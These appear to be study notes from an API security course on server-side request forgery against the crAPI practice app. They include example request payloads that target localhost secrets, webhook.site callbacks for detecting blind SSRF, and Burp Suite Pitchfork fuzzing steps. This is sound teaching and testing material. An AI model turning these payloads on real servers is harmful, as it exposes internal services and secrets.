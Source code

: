 --- ---

<h2>Exploiting SSRF</h2>

Server-Side Request Forgery (SSRF) is a vulnerability that takes place when an application retrieves remote resources without validating user input. An attacker can supply their own input, in the form of a URL, to control the remote resources that are retrieved by the targeted server.

- Type of vulnerability
	There are two types of SSRF vulnerabilities, In-Band SSRF and Blind SSRF. 
	
	- In Band SSRF, means that the server responds with the resources specified by the end user. If the attacker specifies the payload as [http://google.com](http://google.com/) to a server with an In-Band SSRF vulnerability the server would make the request and respond to the attacker with information served from google.com. 

	- Example of In-Ban SSRF
		- For an In-Band SSRF, a URL is specified as an attack. The request is sent and the content of your supplied URL is displayed back to you in a response. 

		**Intercepted Request:**
		
		`_POST api/v1/store/products_`
		`_headers…_`
		`_{_`
		`_"inventory":"http://store.com/api/v3/inventory/item/12345"_`
		`_}_`
		
		**Attack:**
		
		`_POST api/v1/store/products_`
		`_headers…_`
		`_{_`
		`_"inventory":"_**_§_****_http://localhost/secrets_****_§"_**`
		 }
		
		**Response:**
		
		HTTP/1.1 200 OK  
		headers...  
		**{**
		**"secret_token":"crapi-admin"**
		**}**
		
		Once you have discovered an In-Band SSRF vulnerability you could leverage control over the URL to scan the internal network environment, gather sensitive information from the localhost, or attempt to perform a remote code execution attack.

	- Blind SSRF takes place when the attacker supplies a URL and the server makes the request but does not send information from the specified URL back to the attacker. In the case of Blind SSRF, you would need a web server that will capture the request from the target to prove that you forced the server to make the request.      Brup Suit ---> [[• Collaborator]]

	- Example of Blind SSRF
		- Blind SSRF takes place when a vulnerable server performs a request from user input but does not send a response back to the user indicating a successful attack. The app does not provide an unusual response to the user, but the server does make the request to the URL specified by the attacker. In this case, to know if the request was made you will need to have some control over the web server that is specified in the attack.

		**Intercepted Request:**
		
		`_POST api/v1/store/products_`
		`_headers…_`
		`_{_`
		`_"inventory":"http://store.com/api/v3/inventory/item/12345"_`
		 }
		
		**Attack**:
		
		`_POST api/v1/store/products_`
		`_headers…_`
		`_{_`
		`_"inventory:"_**_§_****_http://localhost/secrets_****_§"_**`
		} 
		
		**Response:**
		
		HTTP/1.1 200 OK  
		headers...  
		{}
		
		In this case, the response is returned and we do not have any indication that the server is vulnerable. Instead of [http://localhost/secrets](http://localhost/secrets), we will need to provide the URL to a web server that will let us see if a request is actually made. Burp Suite Pro has a great tool called Burp Suite Collaborator. Collaborator can be leveraged to set up a web server that will provide us with the details of any requests that are made to our random URL. To stick with free tools, we will leverage [http://webhook.site](http://webhook.site/). You can also use one of these other free sites: 
		
		-   [http://pingb.in/](http://pingb.in/) 
		-   [https://requestbin.com/](https://requestbin.com/) 
		-   [https://canarytokens.org/](https://canarytokens.org/) 
		
		![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/UHz28Z8BT8i3ZOFGS1xg_ssrf2.PNG)
		
		By navigating to webhook.site a random URL will be created. You can then use that randomized URL as a payload and track it to see if any requests are made to it. So, our Blind SSRF attack would look more like this.
		
		**Attack**:
		
		`_POST api/v1/store/products_`
		`_headers…_`
		`_{_`
		`_"inventory":"_**_§[https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0](https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0)_****_§"_**`
		 }
		
		Once we submit this request we will not depend on the response, instead, we will check webhook.site for any new requests.
		
		![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/ZJM875zQSICtbtxnT6W1_ssrf3.PNG)
		
		I chose to demonstrate SSRF using webhook.site because it is free, does not require an account, and allows you to create custom responses. You can use the edit button (top right) to create your own custom response.
		
		![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/MkztTx9GR8WL60cnAKDx_ssrf4.PNG)
		
		In the response body, I have emulated what could be a web server that could be a part of the crAPI architecture. This URL can be leveraged for both In-Band and Blind SSRF attacks.
		
		Now that we have reviewed typical SSRF attacks, you will need to know the types of requests to look for when searching for vulnerabilities.


---

<h2>Testing for SSRF</h2>
- Example
	1.  Either using Postman or the web browser, proxy the requests that you are targeting to Burp Suite.
	2.  Next, send the request over to Repeater to get an idea of a typical response.  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/IIcdakknQ7y3KjFakNwZ_ssrf5.PNG)  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/mQzAVhkrTO2Rfoumy9Rt_ssrf6.PNG)
	3.  In the case of the return_order request, we are able to return an item once. If we attempt to return the item twice then we will receive a response that the item has already been returned.  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/yCTiwfUTTvCKxvKjQGmo_ssrf7.PNG)
	4.  In order to successfully test this request we will need a valid order_id. So, we will need to purchase several items in order to be able to make several requests to return an item. Use the POST /workshop/api/shop/orders request to purchase several items. If you need to increase your account balance, return to the Mass Assignment exploit. Purchase enough items, so that you can attempt several attacks.  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/Mg93ujzSVyb0MeTJFXcw_ssrf8.PNG)
	5.  To test this successfully we will need to change the attack type to Pitchfork. Note that Pitchfork allows us to pair separate payloads together. In the case of this request, we will want to pair a valid order_id with an SSRF payload. This will allow us to increase the item_id while simultaneously sending over various attack attempts.  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/hIDoWht0RfWW60zFfSdT_ssrf9.PNG)
	6.  Set the first payload to valid order_id numbers.   
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/YGjcoz6XSxmzhQ5KK0iC_ssrf10.PNG)  
	    Set the second payload to potentially interesting URLs including your webhook.site URL.  For additional SSRF payload ideas check out [PayloadAllTheThings SSRF List](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery).  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/J6R516giR0G2dLNZGO9B_ssrf11.PNG)
	7.  Review the results. Look for anomalies and any indication within the response that indicate that we were able to control the remote resources processed by the server. In this case, there is no indication in the response.  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/Z79Q0RK9Q4mKQa09HsF3_ssrf12.PNG)  
	      
	    Next, make sure to check the webhook.site and see if a blind SSRF attack was successful. Again, the URL was not requested and this request does not appear to be vulnerable. Notice the requests shows 0/500 and the message "Waiting for first request...".  
	    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/DQe3MF8aThyrpztmuWZy_ssrf14.PNG)
	
	Let's try this out on the contact_mechanic request. Set the attack position, copy and paste the payloads you previously used for URLs, and send the attack. Review the results and see if there is anything interesting.
	
	![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/rCAq7jpJRwabZ2rzmXVH_ssrf15.PNG)
	
	Sure enough, the localhost requests fail, but the other URLs provided are successful. As far as reviewing for anomalies, we can see that there are a variety of status codes and response lengths. Upon reviewing the responses from the successful requests, we can see that the remote resources we requested were sent back over the API request.   
	![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/wrsbVrSBRrmtndHVIgfd_ssrf16.PNG)
	
	We can also verify that a request was made from the server by visiting our webhook.site page.
	
	![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/WtZCOd2TStefkvaIIhYK_ssrf13.PNG)  